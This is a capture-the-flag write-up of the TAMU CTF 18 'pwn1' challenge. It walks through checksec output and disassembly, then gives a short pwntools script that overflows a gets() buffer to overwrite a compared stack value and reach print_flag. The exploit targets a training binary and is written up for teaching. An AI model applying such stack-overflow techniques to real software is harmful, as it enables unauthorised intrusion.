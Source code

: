 ```yaml
---
title: TAMU CTF 18 - PWN
date: 2019-02-26 17:34:34
author: slashb4sh
author_url: https://twitter.com
author2: v4d3r
author2_url: https://google.com
category:
    - Pwn
slidehtml: true
---
```


This school CTF had a good set of challenges for beginners

## pwn1

`32-bit executable, dynamically linked, not stripped`

When you run the executable in the terminal, the program simple asks for an input and checks whether it is the secret it is looking for or not. 

debugging in GDB...
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
Going through the assembly code, we can see that see a gets() function. This gives us a chance to corrupt any stack address higher than the stack address where the gets() is to read into. We can also see a call to 'print_flag' function. This call instruction is executed only after a cmp instruction which compares [ebp-0xc] with '0xf007ba11'.

```nasm
0x0804861d <+107>:	cmp    DWORD PTR [ebp-0xc],0xf007ba11
0x08048624 <+114>:	jne    0x804862d <main+123>
0x08048626 <+116>:	call   0x804854b <print_flag>
```

The value in the memory location '0xc'(12) bytes lower than the memory location that is stored in ebp is compared with '0xf007ba11'. If the compare statement is true it sets the ZF, and jne instruction is not executed and 'print_flag' is called. 

### EXPLOIT 
Here the gets() function allows us to write into any higher stack memory location. Hence we can write '0xf007ba11' in the required memory location to get the flag.
```python
from pwn import *

junk="a"*23
s=p32(0xf007ba11)

print junk + s
```
